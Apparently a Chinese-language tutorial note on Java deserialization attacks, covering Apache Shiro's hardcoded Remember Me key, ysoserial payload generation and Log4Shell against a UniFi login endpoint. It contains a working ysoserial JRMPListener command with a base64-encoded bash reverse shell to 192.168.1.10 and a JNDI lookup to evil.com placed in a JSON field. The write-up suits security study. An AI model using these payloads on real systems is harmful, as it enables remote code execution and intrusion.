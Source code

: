 ## Apache shiro

Apache shiro也是一个常用的java库，它也能也用JNDI注入。简单概括就是它比fastjson直接序列化多了一个加密功能，但是**密钥是硬编码的，且公开的**（v-1.2.4）。这是有点搞笑了。

详细来说他有个Remember Me功能，是把用户信息序列化再加密放在Cookie里面，当作身份凭证。服务器拿到cookie先解密看看，成功就认为没有被篡改，然后就反序列化对象。因为我们能知道密钥，所以可以直接改序列化对象。我们既可以直接靠如Commons Collections利用链执行一些恶意代码，也可以做一个JNDI查询，实现JNDI注入。

这里说是加密，但是它其实是签名的功能。只是内部用的是对称密码（AES），只有一个密钥，就也叫加密了。实际上服务端只判断能不能解密，不关心内容，也就是只看有没有被篡改。

## Ysoserial

```
java -jar ysoserial.jar CommonsCollections1 [command] > payload.ser
```

生成一个序列化文件，这里的payload是CommonsCollections，也可以换做其他payload。比如**JRMPClient & JRMPListener**，这两个Payload通常配合使用，用于**实现反向连接和远程代码执行**:

```
java -jar ysoserial.jar JRMPClient "192.168.1.10:1099" > payload.ser
```

生成序列化文件，然后启动JRMP服务器监听：

```
java -cp ysoserial.jar ysoserial.exploit.JRMPListener 1099 CommonsCollections1 "bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjEuMTAvOTk5OSAwPiYx}|{base64,-d}|{bash,-i}"
```

发送文件之后，就可以拿到shell

这里本质是发送了两次payload，第一次JRMPClient让目标连接JRMP服务器，第二次JRMPListener发送反弹shell的payload。

## 编码

java反序列化和JNDI注入一样，最后都是靠`Runtime.getRuntime().exec()`执行系统命令，而这个函数无法正确处理反弹shell指令中的特殊符号，比如重定向符之类。所以要进行bash64编码：
```
bash -c {echo,xxx}|{base64,-d}|{bash,-i}
```

# LOG4Jshell

Log4j是一个日志记录的库，它会把程序运行的信息（包括用户输入！）写到日志文件里。比如攻击者在登录框的用户名写一个恶意的JNDI查询如`${jndi:ldap://evil.com/x}`，Log4j会把这个查询记录到日志里。而**Log4j 2.x 版本中的 JNDI 查找功能缺乏必要的安全验证**，也就是他会直接执行日志中记录的JNDI查询，触发JNDI注入。

v6.4.54的UniFi Network的log4jshell的注入点在`/api/login` POST提交的JSON数据中的remember字段。我们在其中协商一条jndi查询的语句：

```
"remember":"${jndi:ldap://evil.com/x}"
```

这里写入的是一个JNDI url，其结构为：

```
${jndi:[协议]://[服务器地址]:[端口]/[资源路径]}
```
